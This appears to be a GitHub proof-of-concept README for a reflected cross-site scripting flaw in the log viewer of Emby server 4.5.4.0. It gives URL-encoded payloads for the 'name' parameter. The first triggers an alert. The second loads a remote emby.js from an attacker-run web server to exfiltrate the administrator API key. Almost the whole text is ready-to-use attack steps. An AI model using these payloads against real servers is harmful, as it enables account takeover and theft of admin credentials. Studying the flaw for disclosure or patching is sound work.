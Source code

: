 # emby-4.5.4.0-xss-poc

1.Browse emby server url :**"http://192.168.201.3:8096/web/index.html#!/log?name=embyserver.txt"** which can show you the log files.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**, urldecoded as "\<img src=x onerror=alert(1)\>"

3.Url will be **"http://192.168.201.3:8096/web/index.html#!/log?name=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%31%29%3e"**

3.Browse the edited url and it will show an alert dialog (U may have to refresh 2-3 times).

# emby-4.5.4.0-xss-stole-admin-api-exp

1.Put emby.js in directory and run "python -m SimpleHTTPServer" to run a web server.

2.Edit param "name" as **"%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%2f%2f%31%32%37%2e%30%2e%30%2e%31%2f%65%6d%62%79%2e%6a%73%27%3e"**

3.Browse the edited url and you will load emby.js from SimpleHTTPServer and send the api value to SimpleHTTPServer.

